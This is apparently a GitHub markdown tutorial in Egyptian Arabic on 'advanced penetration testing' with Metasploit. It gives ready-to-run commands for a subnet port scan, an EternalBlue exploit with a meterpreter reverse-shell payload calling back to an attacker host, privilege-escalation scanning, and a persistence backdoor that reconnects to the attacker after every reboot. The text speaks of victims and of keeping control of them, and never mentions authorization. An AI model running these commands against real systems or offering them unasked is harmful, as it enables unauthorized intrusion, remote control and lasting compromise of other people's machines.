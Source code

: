 ## **🔥 تنفيذ اختبارات اختراق متقدمة باستخدام Metasploit 🔥**

### **🔹 يعني إيه اختبار اختراق متقدم؟**

اختبار الاختراق المتقدم (Advanced Penetration Testing) **مش مجرد تشغيل Exploit والسلام**، لكنه بيشمل:

- التخطيط للهجوم 🚀
- جمع المعلومات بشكل متقدم 🕵️‍♂️
- تنفيذ الهجمات بطريقة متقدمة 🔥
- التحايل على الحماية والتخفي 🕶️
- الحفاظ على الوصول للنظام الضحية 💀

🎯 **💬 الخلاصة بالمصري:**  
"اختبار الاختراق المتقدم مش بس تشغيل Exploit، لكنه خطة كاملة تشمل الاستهداف، الهجوم، التخفي، والاستمرار على النظام!" 🦾💣

---

## **🟢 1. جمع المعلومات بشكل متقدم (Advanced Reconnaissance)**

📌 **قبل الهجوم، لازم تجمع معلومات كافية عن الهدف:**  
✅ تحديد عنوان الـ IP والشبكة الفرعية  
✅ اكتشاف الخدمات والبورتات المفتوحة  
✅ البحث عن الثغرات المعروفة على النظام

**🔹 تنفيذ فحص متقدم باستخدام Nmap داخل Metasploit**

```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1/24
set THREADS 10
run
```

ده بيحدد البورتات المفتوحة على الشبكة المستهدفة 🔍

🎯 **💬 الخلاصة بالمصري:**  
"قبل ما تهجم، لازم تعرف إيه اللي قدامك: مين متصل؟ إيه البورتات المفتوحة؟ فين الثغرات؟" 🕵️‍♂️📡

---

## **🟢 2. استغلال الثغرات المتقدمة (Advanced Exploitation)**

📌 **بعد ما تحدد الثغرات، لازم تستخدم Exploits مناسبة، زي:**  
✅ **EternalBlue (MS17-010)** لاختراق أنظمة ويندوز القديمة  
✅ **Apache Struts Exploit** لاختراق سيرفرات الويب  
✅ **PHP Code Injection** لاختراق تطبيقات الويب

**🔹 تنفيذ هجوم باستخدام EternalBlue**

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

ده بيستغل ثغرة `EternalBlue` لعمل **اختراق كامل** للجهاز المستهدف 💀

🎯 **💬 الخلاصة بالمصري:**  
"حدد الثغرة المناسبة، استخدم الـ Exploit الصح، واختر الـ Payload اللي يديك تحكم كامل على الهدف!" 🎯🔥

---

## **🟢 3. التصعيد إلى صلاحيات أعلى (Privilege Escalation)**

📌 **بعد الاختراق، لازم ترفع صلاحياتك عشان تتحكم في كل حاجة!**  
✅ البحث عن كلمات مرور مخزنة  
✅ استغلال أخطاء تكوين النظام  
✅ تنفيذ LPE (Local Privilege Escalation)

**🔹 استخدام Metasploit لرفع الصلاحيات**

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

ده بيبحث عن **طرق محتملة لرفع الصلاحيات** بناءً على النظام المستهدف! 🛠️

🎯 **💬 الخلاصة بالمصري:**  
"بعد ما تخترق، لازم ترفع صلاحياتك عشان تتحكم أكتر في النظام!" 🏴‍☠️💥

---

## **🟢 4. التخفي والتجاوز (Evasion & Persistence)**

📌 **الحفاظ على الاختراق هو الأهم، وده بيتم عن طريق:**  
✅ تشغيل Backdoor يفتح بعد كل ريستارت  
✅ استخدام تقنيات التشفير لتجنب الـ Antivirus  
✅ إخفاء الملفات والبرمجيات الخبيثة

**🔹 تثبيت Backdoor تلقائيًا**

```bash
run persistence -U -i 5 -p 4444 -r 192.168.1.100
```

ده هيخلي الضحية **يرجع يتصل بيك كل مرة يفتح الجهاز!** 🔥

🎯 **💬 الخلاصة بالمصري:**  
"متخليش الضحية تهرب منك! سبّت Backdoor يخليه يرجع لك تلقائيًا!" 😈🖥️

---

## **🛠️ خطوات عملية لتنفيذ اختبار اختراق متقدم**

✅ **1. جمع المعلومات عن الهدف** باستخدام `Nmap` و`Metasploit`  
✅ **2. استغلال الثغرات المناسبة** باستخدام `Exploits` قوية  
✅ **3. رفع الصلاحيات** باستخدام `Local Exploit Suggester`  
✅ **4. الحفاظ على الوصول** عن طريق `Backdoors` وتقنيات التخفي

🎯 **💬 الخلاصة النهائية بالمصري:**  
"متوقفش عند الاختراق بس، خطط لهجومك، اختر أفضل Exploit، ارفع صلاحياتك، وفضل مسيطر على الهدف!" 🚀💀